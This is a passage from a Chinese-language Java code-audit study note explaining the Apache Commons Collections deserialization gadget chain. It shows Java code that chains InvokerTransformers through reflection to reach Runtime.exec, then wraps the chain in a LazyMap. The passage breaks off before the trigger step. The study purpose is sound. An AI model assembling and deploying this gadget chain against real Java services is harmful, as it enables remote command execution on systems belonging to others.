 - ![image-20211228102601756](java代码审计.assets/image-20211228102601756.png)

  ```java
  String[] execArgs = new String[]{command};
  
  Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});
  
  Transformer[] transformers = new Transformer[]{
  	new ConstantTransformer(Runtime.class), 
  	new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},new Object[]{"getRuntime", new Class[0]}), 
  	new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), 
      new InvokerTransformer("exec", new Class[]{String.class}, execArgs), 
      new ConstantTransformer(1)};
  ```
- 构造transformers链，第一个Transformer，只有一个ConstantTransformer，在之前的简化版代码中已经学过了，ConstantTransformer的参数是1，那transform方法返回的也是1。
- 第二个Transformer是通过反射获取Runtime对象，通过反射，获取invoke方法，再通过反射，执行exec方法，这个不难。

  ```java
  Map innerMap = new HashMap();
  Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
  ```
- 构造一个hashmap对象，同时创建了LazyMap对象，参数是之前的map和ConstantTransformer对象。进入 LazyMap.decorate()函数。

  ```java
  public static Map decorate(Map map, Transformer factory) {
  	return new LazyMap(map, factory);
  }
  
  protected LazyMap(Map map, Transformer factory) {
      super(map);
      if (factory == null) {
      	throw new IllegalArgumentException("Factory must not be null");
      } else {
      	this.factory = factory;
  	}
  }
  ```
- LazyMap通过HashMap初始化了自己，然后将Transformer对象存到factory变量。
- LazyMap和HashMap有什么区别？
